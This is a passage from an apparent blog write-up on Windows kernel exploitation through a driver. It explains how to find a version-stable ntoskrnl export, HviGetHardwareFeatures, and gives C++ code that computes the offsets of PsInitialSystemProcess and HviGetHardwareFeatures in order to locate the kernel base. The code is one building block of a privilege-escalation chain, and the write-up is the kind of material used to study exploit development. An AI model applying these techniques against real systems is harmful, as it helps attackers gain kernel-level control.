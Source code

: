 Sadly this structure was not exported by ntoskrnl which meant that using it for a direct offset calculation with the aforementioned `LoadLibrary()` and `GetProcAddress()` calls wouldn't work. So, I would need to find another use for it that would allow me to calculate the base address of `ntoskrnl`.

I opened `ntoskrnl` in IDA and began walking down the exported symbols list to look for a usable function with a signature that, most importantly, didn't change across windows versions. After some looking, I found one I was happy with, `HviGetHardwareFeatures`.

Based on some checks across multiple Windows 10 versions and an up-to-date Windows 11 version - the export wasn't missing and had a repeatable and predictable signature. On Windows 11 part of it it was shifted up `0x10` bytes which I can easily address with some if statement nonsense.

![Oops...](../assets/img/gethwfeature-signature.png)

<br>

## <u>Dirty Dancing Across The Kernel</u>

For starters I needed to check the offsets for the `PsInitialSystemProcess` and `HviGetHardwareFeatures`. To do so I added the needed `LoadLibraryA` and `GetProcAddress` calls in a method that supported passing an ASCII string.

```c++
DWORD GetOffset(LPSTR method) {
    HMODULE ntoskrnl = NULL;
    DWORD methodAddrOffset = 0;
    ULONG_PTR methodAddr = 0;

    ntoskrnl = LoadLibraryA("ntoskrnl.exe");
    if (ntoskrnl == NULL) {
        printf_s("\t[--] Couldn't load ntoskrnl.exe\n");
        return 0;
    }
    methodAddr = (ULONG_PTR)GetProcAddress(ntoskrnl, method);
    if (methodAddr) {
        methodAddrOffset = (DWORD)(methodAddr - (ULONG_PTR)(ntoskrnl));
        FreeLibrary(ntoskrnl);
        return methodAddrOffset;
    }

    printf_s("\t[--] Couldn't Get Offset of %s\n", method);
    return 0;
}

int main() {
    ...
    printf_s("\t[++] Driver Handle: 0x%x\n", DriverHandle);
    DWORD PSISP_offset = GetOffset((LPSTR)"PsInitialSystemProcess");
    printf_s("\t[++] PsInitialSystemProcess Offset: %llx\n", PSISP_offset);

    DWORD hvigethwf_offset = GetOffset((LPSTR)"HviGetHardwareFeatures");
```